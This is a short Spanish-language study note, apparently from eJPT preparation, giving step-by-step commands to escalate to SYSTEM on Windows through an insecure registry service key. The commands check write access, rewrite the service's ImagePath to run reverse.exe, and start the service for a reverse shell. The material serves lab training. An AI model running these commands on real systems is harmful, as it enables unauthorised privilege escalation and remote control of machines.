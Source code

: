 - Consulta el "regsvc" servicio y noque se ejecuta con privilegios SYSTEM (SERVICE_START_NAME).

```
sc qc regsvc
```

- Usando accesschk.exe, tenga en cuenta que la entrada del registro para el servicio regsvc es escribible por la "NT Grupo AUTHORITY\INTERACTIVE" (esencialmente todos los usuarios registrados):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

- Sobrescribe la clave del registro ImagePath para apuntar al ejecutable reverse.exe que creaste:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

- Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios SYSTEM:

```
net start regsvc
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Service Exploits - Insecure Service Permissions]]
[[Service Exploits - Insecure Service Executables]]
[[Service Exploits - Unquoted Service Path]]
[[Generate a Reverse Shell Executable]]